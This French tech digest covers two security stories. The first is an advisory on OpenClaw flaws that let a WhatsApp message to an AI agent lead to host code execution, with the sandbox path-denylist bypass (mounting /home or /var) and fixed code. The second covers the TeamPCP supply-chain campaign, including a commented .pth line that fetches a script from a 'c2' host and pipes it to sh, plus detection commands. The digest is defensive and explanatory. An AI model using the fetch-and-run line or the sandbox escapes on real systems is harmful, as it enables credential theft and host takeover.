


# Tech — Détail du dimanche 12 juillet 2026

## 1. OpenClaw — trois failles transforment un message WhatsApp en exécution de code sur l'hôte

**Source :** The Hacker News — https://thehackernews.com/2026/07/researcher-details-whatsapp-to-host.html
**Date :** 10 juillet 2026

### Contexte

OpenClaw est un assistant IA personnel open source qui branche des agents sur tes canaux (WhatsApp, etc.) et leur donne des outils, dont l'exécution de commandes, dans un « sandbox ». Le chercheur Chinmohan Nayak a montré que trois failles, désormais corrigées (v2026.6.6), permettent à un message externe — un WhatsApp d'un inconnu — d'aboutir à du code exécuté sur la machine hôte. Contrairement à la chaîne « Claw Chain » de mai, ces bugs ne réclament aucun accès préalable.

### Comment ça marche

Deux des failles (GHSA-hjr6-g723-hmfm et GHSA-9969-8g9h-rxwm, CVSS 8.8) sont des injections de commande OS : le filtrage des entrées de l'environnement d'exécution repose sur une liste noire incomplète, donc certaines commandes passent au travers et s'exécutent au-delà de ce que l'appelant devrait pouvoir faire.

La troisième (GHSA-575v-8hfq-m3mc, CVSS 8.4) est la plus instructive. Le sandbox interdit de monter certains dossiers sensibles (`~/.ssh`, `~/.aws`, `~/.gnupg`) via une denylist. Mais la fonction `getBlockedReasonForSourcePath()` vérifie seulement si le chemin *source* est **sous** un chemin bloqué — jamais l'inverse. Or `~/.ssh` est sous `/home`. En montant le **parent** `/home`, tu n'es « sous » aucune entrée de la denylist, le contrôle passe, et tu obtiens quand même accès aux secrets SSH, AWS et GPG de tous les utilisateurs.



Pire : monter `/var` expose `/var/run/docker.sock`. Qui contrôle la socket Docker contrôle l'hôte — création de conteneurs privilégiés, évasion complète du sandbox.

### En pratique — exemple de code

```python
# Le cœur du bug GHSA-575v-8hfq-m3mc : une denylist « à sens unique »
BLOCKED = ["/home/user/.ssh", "/home/user/.aws", "/home/user/.gnupg"]

# AVANT (vulnérable) : bloque seulement si la source EST SOUS un chemin bloqué
def is_blocked(src):
    return any(src.startswith(b) for b in BLOCKED)

is_blocked("/home")          # -> False  (/home est PARENT de .ssh -> passe !)

# APRÈS (corrigé) : bloquer aussi si un chemin bloqué est sous la source
def is_blocked_fixed(src):
    return any(src.startswith(b) or b.startswith(src) for b in BLOCKED)

is_blocked_fixed("/home")    # -> True   (monter le parent est refusé)
```

### Pourquoi ça compte pour toi

Si tu exposes un agent IA doté d'un outil d'exécution, ce cas est un rappel net : ta denylist de chemins doit tester les deux sens — parent ET enfant —, sinon monter un dossier parent la contourne. Mets tes agents en mode sandbox, retire `exec` de l'allowlist des agents connectés à un canal, et surveille les `git clone` contenant `ext::` (un helper qui lance des commandes). Ne partage jamais une même Gateway entre utilisateurs qui ne se font pas confiance.

### Pour aller plus loin

Conseil de l'éditeur : restreindre la fonctionnalité aux opérateurs de confiance, ou la désactiver tant qu'elle n'est pas nécessaire.

---

## 2. TeamPCP — quand un fichier `.pth` Python transforme une dépendance en backdoor persistante

**Source :** GBHackers — https://gbhackers.com/teampcp-supply-chain-attacks/
**Date :** 7 juillet 2026

### Contexte

TeamPCP est une opération supply-chain qui, plutôt que de cibler des victimes précises, a contaminé des composants très utilisés — Trivy, Checkmarx KICS, LiteLLM, le SDK Python Telnyx — pour que toute organisation qui les installe ou exécute leurs workflows se compromette elle-même. But : moissonner des identifiants CI/CD et cloud à grande échelle. Bilan à mars 2026 : plus de 500 000 credentials sur plus de 10 000 pipelines, revendus aux opérateurs du ransomware VECT.

### Comment ça marche

Le vecteur le plus instructif vise LiteLLM v1.82.8 : l'injection d'un fichier `litellm_init.pth`. Peu de devs le savent, mais Python exécute automatiquement, au démarrage de l'interpréteur, toute ligne commençant par `import` dans n'importe quel fichier `.pth` présent dans `site-packages`. Ces fichiers servent normalement à ajouter des chemins au `sys.path` ; mais une ligne `import …` y est évaluée telle quelle, avant même ton code.



Conséquence : dès qu'un `.pth` malveillant est déposé dans `site-packages`, il tourne à **chaque** lancement de Python — sur le poste du dev comme sur chaque runner CI — sans qu'aucun `import` explicite n'apparaisse dans le code. Persistance discrète et automatique. En parallèle, TeamPCP a exploité une faille du workflow Trivy (CVE-2026-33634) avec un credential mainteneur volé pour réécrire ses versions publiées, et livré un RAT à trois étages via le SDK Telnyx 4.87.1/4.87.2.

### En pratique — exemple de code

```bash
# Comprendre et détecter le mécanisme .pth

# 1) Ce que fait un .pth malveillant (une seule ligne suffit) :
#    import os; os.system("curl http://c2/steal | sh")
#    -> exécuté à CHAQUE démarrage de python, avant ton code

# 2) Chasse sur tes postes et runners CI :
find / -name "*.pth" 2>/dev/null | xargs grep -l "import os\|import subprocess" 2>/dev/null
find / -name "litellm_init.pth" 2>/dev/null    # IoC spécifique TeamPCP
```

### Pourquoi ça compte pour toi

Même si tu es surtout .NET, tes pipelines CI installent probablement des paquets Python (outils de scan, SDK). Un `.pth` piégé y tourne à chaque job, invisible dans ton code. Cherche `litellm_init.pth`, épingle des versions vérifiées de Trivy et KICS, contrôle le SDK Telnyx, et surtout **fais tourner toute crédential CI/CD et cloud émise avant avril 2026** : le FBI prévient qu'elles seront exploitées longtemps après la compromission.

### Points de vigilance

- Cherche des dépôts `docs-tpcp` créés dans tes organisations GitHub : c'est une persistance déguisée en dépôt d'automatisation légitime.
